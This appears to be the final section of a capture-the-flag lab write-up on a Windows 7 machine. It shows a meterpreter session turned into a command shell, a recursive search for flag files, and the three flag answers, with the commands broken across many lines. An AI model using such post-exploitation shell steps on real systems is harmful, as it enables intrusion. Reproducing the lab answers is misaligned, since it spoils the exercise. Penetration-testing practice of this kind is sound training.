

6. Finding flags
There are 3 flags.
a) Get a “shell” on your meterpreter.
meterpreter > shell
Output:
Process 1016 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\>
b) List all the files on c: with part of name “flag”.
C
:
\>
dir
flag*.*
/
s
Output:

So the files are in:
flag1.txt -> C:\
flag2.txt -> C:\Windows\System32\config
flag3.txt -> C:\Users\Jon\Documents
c) Let's see the flags.
C
:
\>
more
flag1.txt
Output:
flag{access_the_machine}
C
:
\>
more
C
:
\W
indows
\S
ystem32
\c
onfig
\f
lag2.txt
Output:
flag{sam_database_elevated_access}
C
:
\>
more
C
:
\U
sers
\J
on
\D
ocuments
\f
lag3.txt
Output:
flag{admin_documents_can_be_valuable}
Index